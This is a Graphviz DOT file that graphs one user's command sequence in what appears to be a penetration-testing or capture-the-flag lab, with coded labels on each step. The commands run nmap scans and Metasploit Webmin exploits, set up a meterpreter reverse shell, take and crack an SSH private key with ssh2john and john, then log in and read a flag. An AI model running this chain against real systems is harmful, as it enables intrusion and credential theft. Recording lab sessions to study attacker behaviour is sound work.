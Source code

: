 // creating graph for user: 92
digraph {
	node [shape=box]
	0 [label="nmap 172.181.1.5 -p- A0 A1 "]
	1 [label="nmap 172.181.1.5 -p- -Pn A0 A1 "]
	2 [label="nmap 172.18.1.5 -p- A0 M0 A1 "]
	3 [label="nmap 172.18.1.5 -p- -A V0 "]
	4 [label="msfconsole A2 M2 "]
	5 [label="search webmin A3 M3 "]
	6 [label="use exploit/unix/webapp/webmin_backdoor A8 M8 "]
	7 [label="show options A5 M5 "]
	9 [label="set LHOST 10.1.135.83 A6 M6 "]
	10 [label="show options V5 "]
	11 [label="set RHOSTS 172.18.1.5 V6 "]
	12 [label="exploit V8 "]
	13 [label="search web A3 "]
	14 [label="search web_de A3 "]
	15 [label="setg LHOST 10.1.135.83 V6 "]
	16 [label="use exploit/multi/script/web_delivery V8 "]
	17 [label="show optins A5 "]
	18 [label="show otions A5 "]
	19 [label="show options V5 "]
	20 [label="set target linux A6 "]
	21 [label="show options V5 "]
	22 [label="show targets A5 "]
	23 [label="set target  A6 "]
	24 [label="show options V5 "]
	25 [label="show targets A5 "]
	26 [label="set target  A6 "]
	27 [label="set target 6 A6 "]
	28 [label="show options V5 "]
	29 [label="set payload linux/x64/meterpreter/reverse_tcp  A6 "]
	30 [label="show options V5 "]
	31 [label="run V8 "]
	32 [label="use exploit/unix/webapp/webmin_backdoor V8 "]
	33 [label="run V8 "]
	34 [label="set LPORT 4445 A6 "]
	35 [label="run V8 "]
	36 [label="nmap 172.18.1.5/12 -p- V0 "]
	42 [label="nmap 172.18.1.5/24 -p- V0 "]
	45 [label="nmap 172.18.1.2 A0 A1 "]
	51 [label="nmap 81.2.195.254 A0 A1 "]
	54 [label="nmap 10.1.18.22 A0 A1 "]
	55 [label="nmap 10.1.17.4 A0 A1 "]
	56 [label="cd .ssh A16 "]
	57 [label="ls A10 "]
	58 [label="cat id_rsa A12 M12 A17 "]
	59 [label="john id_rsa A14 "]
	60 [label="ssh2john A14 A16 "]
	61 [label="locate ssh2john A1 A9 A10 A11 A12 A14 A16 A17 "]
	63 [label="python ssh2john.py A13 M13 A14 A16 "]
	64 [label="python ssh2john.py .ssh/id_rsa V13 "]
	65 [label="python ssh2john.py .ssh/id_rsa > eve V13 "]
	66 [label="john eve A14 "]
	67 [label="locate rockyou A1 A9 A10 A11 A12 A17 "]
	68 [label="john eve --wordlist=/usr/share/wordlists/rockyou.txt A14 M14 "]
	69 [label="ls A10 "]
	70 [label="ssh eve@10.1.17.4 A16 M16 "]
	71 [label="chmod 600 .ssh/id_rsa A15 M15 A16 "]
	72 [label="ssh eve@10.1.17.4 V16 "]
	73 [label="ls -la A10 "]
	75 [label="ls A10 "]
	76 [label="cat flag.txt A17 M17 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 42 [constraint=false]
	42 -> 45 [constraint=false]
	45 -> 51 [constraint=false]
	51 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	rankdir=LR
}
